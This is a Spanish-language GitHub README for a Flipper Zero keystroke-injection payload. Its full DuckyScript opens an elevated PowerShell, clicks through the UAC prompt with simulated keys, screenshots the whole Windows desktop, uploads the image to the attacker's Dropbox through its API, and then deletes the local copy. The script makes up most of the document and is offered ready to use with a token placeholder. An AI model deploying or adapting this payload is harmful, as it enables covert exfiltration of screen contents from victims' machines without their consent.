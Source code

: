 # Dropbox Screenshot Uploader

Este proyecto contiene un payload para el Flipper Zero que toma una captura de pantalla en un sistema Windows y la sube a Dropbox utilizando PowerShell.

## Autor

- **mrflippermen**

## Descripción

Este payload está diseñado para sistemas Windows. El script realiza las siguientes acciones:
1. Abre PowerShell con permisos elevados.
2. Toma una captura de pantalla.
3. Sube la captura de pantalla a Dropbox.
4. Elimina el archivo temporal de la captura.

## Requisitos

- Flipper Zero
- Token de API de Dropbox
- Sistema operativo Windows

## Instalación

1. Clona o descarga este repositorio.
2. Abre el script en tu editor de texto preferido.
3. Reemplaza el marcador `"DROPBOX_API_TOKEN_HERE"` con tu token de API de Dropbox.
4. Guarda los cambios.

## Uso

1. Asegúrate de que PowerShell está instalado en tu sistema Windows.
2. Ejecuta el payload en tu Flipper Zero.
3. Observa cómo se abre PowerShell, toma una captura de pantalla y la sube a Dropbox.

## Script

```plaintext
REM Autor: mrflippermen 
REM Descripción: Este payload toma una captura de pantalla y la sube a Dropbox.
REM Sistema: Windows

DELAY 750
WINDOWS d
DELAY 1500
WINDOWS r
DELAY 1500

REM Abre PowerShell con permisos elevados
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 2000

REM Aceptar el prompt de Control de Cuentas de Usuario (UAC)
ALT LEFTARROW
DELAY 1000
ALT ENTER
DELAY 2000

REM Espera a que la ventana de PowerShell con permisos elevados esté lista
DELAY 1000

REM Establecer el token de API de Dropbox
STRING $db = "DROPBOX_API_TOKEN_HERE";
ENTER

REM Función para subir un archivo a Dropbox
STRING function DropBox-Upload {
ENTER
STRING     param (
ENTER
STRING         [string]$SourceFilePath
ENTER
STRING     )
ENTER
STRING     $outputFile = Split-Path $SourceFilePath -leaf;
ENTER
STRING     $TargetFilePath = "/$outputFile";
ENTER
STRING     $arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }';
ENTER
STRING     $authorization = "Bearer " + $db;
ENTER
STRING     $headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]";
ENTER
STRING     $headers.Add("Authorization", $authorization);
ENTER
STRING     $headers.Add("Dropbox-API-Arg", $arg);
ENTER
STRING     $headers.Add("Content-Type", 'application/octet-stream');
ENTER
STRING     Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers;
ENTER
STRING }
ENTER

REM Cargar System.Windows.Forms y tomar una captura de pantalla
STRING Add-Type -AssemblyName System.Windows.Forms;
ENTER
STRING $screen = [System.Windows.Forms.SystemInformation]::VirtualScreen;
ENTER
STRING $bitmap = New-Object Drawing.Bitmap $screen.Width, $screen.Height;
ENTER
STRING $graphics = [System.Drawing.Graphics]::FromImage($bitmap);
ENTER
STRING $graphics.CopyFromScreen($screen.Left, $screen.Top, 0, 0, $screen.Size);
ENTER

REM Guardar la captura de pantalla en un archivo temporal
STRING $filePath = "$env:temp\sc.png";
ENTER
STRING $bitmap.Save($filePath, [System.Drawing.Imaging.ImageFormat]::Png);
ENTER
STRING $graphics.Dispose();
ENTER
STRING $bitmap.Dispose();
ENTER

REM Subir la captura de pantalla a Dropbox
STRING DropBox-Upload -SourceFilePath $filePath;
ENTER

REM Eliminar el archivo temporal
STRING Remove-Item -Path $filePath;
ENTER

REM Salir del script
STRING exit
ENTER
```
##Contribuir

Las contribuciones son bienvenidas. Puedes hacer un fork del repositorio y enviar un pull request con tus mejoras o correcciones.
